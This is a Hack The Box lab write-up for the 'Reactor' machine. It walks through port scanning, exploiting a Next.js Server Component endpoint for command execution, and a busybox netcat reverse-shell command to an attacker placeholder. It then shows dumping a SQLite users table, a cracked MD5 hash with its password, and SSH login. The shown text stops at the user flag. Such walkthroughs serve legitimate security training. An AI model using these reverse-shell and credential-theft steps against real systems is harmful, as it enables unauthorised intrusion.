






# Reactor

> **Difficulty:** Medium  
> **Platform:** Hack The Box  
> **Operating System:** Linux

---

# Overview

Reactor is a Linux machine centered around a modern **Next.js** application.

The initial foothold is achieved by exploiting a vulnerable **React Server Component (RSC)** endpoint, resulting in remote command execution as the **node** user.

Post-exploitation involves inspecting the application source code, extracting credentials from a local SQLite database, cracking an MD5 password hash, and authenticating via SSH as the **engineer** user.

Privilege escalation is then achieved by abusing the vulnerable Node.js application running as root, ultimately leading to full system compromise.

---

# Enumeration

A full TCP scan identified two accessible services.

```bash
nmap -sC -sV -oN nmap_scan <TARGET-IP>
```

### Open Ports

| Port | Service | Version |
|------|---------|---------|
|22|SSH|OpenSSH 9.6p1|
|3000|HTTP|Next.js Application|

> 📷 **Screenshot**



---

# Web Enumeration

Browsing to port **3000** revealed a monitoring dashboard named **ReactorWatch**.

The application appeared to be built using **Next.js**, confirmed by both HTTP response headers and exposed JavaScript assets.

Interesting observations included:

- Next.js framework
- React Server Components
- Modern JavaScript frontend
- Dynamic API responses

> 📷 **Screenshot**



---

# Initial Foothold

Research into the application's behavior identified a vulnerable **Next.js Server Action** endpoint susceptible to server-side code execution.

A public proof-of-concept was modified to execute arbitrary system commands.

The exploit sends a crafted React Server Component payload that abuses JavaScript's constructor chain to invoke:

```javascript
require('child_process').execSync()
```

The exploit script was executed as follows:

```bash
python script.py http://<TARGET-IP>:3000 \
"busybox nc <ATTACKER-IP> 4444 -e /bin/sh"
```

A Netcat listener was started beforehand.

```bash
nc -lvnp 4444
```

Shortly afterwards, a reverse shell connected back as the **node** user.

```bash
whoami
```

Output:

```text
node
```

> 📷 **Screenshot**



---

# Local Enumeration

The application directory was inspected.

```bash
cd /home/engineer/app

ls
```

Interesting files included:

- package.json
- next.config.js
- reactor.db

The SQLite database appeared to contain user information.

```
reactor.db
```

Using SQLite, the users table was queried.

```bash
sqlite3 reactor.db

SELECT * FROM users;
```

The database returned two users:

- administrator
- engineer

along with password hashes.

> 📷 **Screenshot**



---

# Credential Recovery

The engineer account password hash was extracted and identified as an MD5 hash.

The hash was successfully cracked.

```
39d97110eafe2a9a68639812cd271e8e
```

Recovered password:

```
reactor1
```

> 📷 **Screenshot**



---

# SSH Access

The recovered credentials were used to authenticate via SSH.

```bash
ssh engineer@<TARGET-IP>
```

Authentication succeeded, providing a stable shell as the **engineer** user.

```bash
whoami
```

Output:

```text
engineer
```

The user flag was then captured.

> 📷 **Screenshot**


